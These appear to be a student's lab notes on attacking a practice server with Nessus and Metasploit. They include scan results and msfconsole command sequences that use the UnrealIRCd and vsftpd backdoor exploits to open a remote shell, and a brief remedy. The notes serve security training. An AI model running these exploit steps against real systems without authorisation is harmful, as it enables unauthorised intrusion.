 # 2 Metasploit -> gaining access


Goal attack the server: "iloveshells.vm.vuln.land" using metasploit


### Vulnerability scan using Nessus
Via Nessus web interface I start an advanced scan on iloveshells.vm.vuln.land
Found: 110 vulnerabilities of which 6 are considered critical. 
Detected OS: Linux Kernel 2.6 ubuntu 8.04 (gutsy)

**Port scan results**
Some open ports and corresponding services: 21 (ftp), 22 (ssh), 23 (telnet), 25(smtp), 53 (dns), 80 (www), .... etc. (not all isted here)

**Service scan results**
Results overlap with port scan but a) theorethically services could run on the wrong ports and b) services could run on higher ports. Some results: 
- FTP (port 21 + 2121)
- Web (port 80 + 8180)
- VNC (port 5900)
- irc (port 6667)



### Remote shell via IRC metaxploit 
From the Nessus scan i know that iloveshells.vm.vuln.land has a critical vulnerability that allows remote shell execution via IRC. To exploit this, i did the following. 
- `msfconsole` start it from console (now we can enter specific commands)
- `search irc` -> will show exploits (because the got "exploits" in their path/name) 
    - found unrealRDC 
- `use exploit/unix/irc/unreal_ircd_3281_backdoor` 
- `set RHOSTS iloveshells.vm.vuln.land` 
- `set payload payload/cmd/unix/bind_perl`
- `exploit`

 works :-)  we got our shell and can now run bash commands. Maybe it is because I don't know linux bash not very well (or metasploit, shell etc.) but I cannot really navigate in the folder. "cd .." doesn't seem to work to explore the file system. However, i can still do it via `ls / -al` to see the root dir and from there I coud use cat or pipes etc. to explore the system. 

![Success attack](2_MetasploitAttackIRC.png)


**Remedy**
Reinstall updated and verified software without backdoor. Recommendation from Nessus



### Varia Notes ettc.

**Metasploit framework**
metasploit can be used to: 
- create trojan horses
- run attacks

https://www.youtube.com/watch?v=oBAC5UfalC8

**Nessus vulnerability scanner**
Vulnerability scanner with web interface
https://www.youtube.com/watch?v=sfT_qEw3Fcs



**Example attach on FTP vulnerability (see video)**

- `msfconsole` start it from console (now we can enter specific commands)
- `search exploits` -> will show exploits (because the got "exploits" in their path/name) 
- `search vsftp`  -> search for exploit that has "vsftp" in its path/name
- `use exploit/unix/ftp/vsftpd_234_backdoor` use/run specific exploit (full path) > command promt will change (now can enter commands for that particular exploit)
    - `options` -> exists for every exploit
    - `set RHOSTS iloveshells.vm.vuln.land`  to set server to be attacked for the vsftpd exploit
        - you can run options again to see if it appears in options now
    - `show payloads` -> will show payloads that are available for this server (if there is only one it will automatically choose the only one available)$
    - `exploit` -> run/start acutal exploit (if there is only one exploit there we can leave out the payload)
        - with this exploit (vsftpd) a shell is now open (other exploits will provide different feedback) and we can now run commands on this shell which are executed on iloveshells.vm.vuln.land

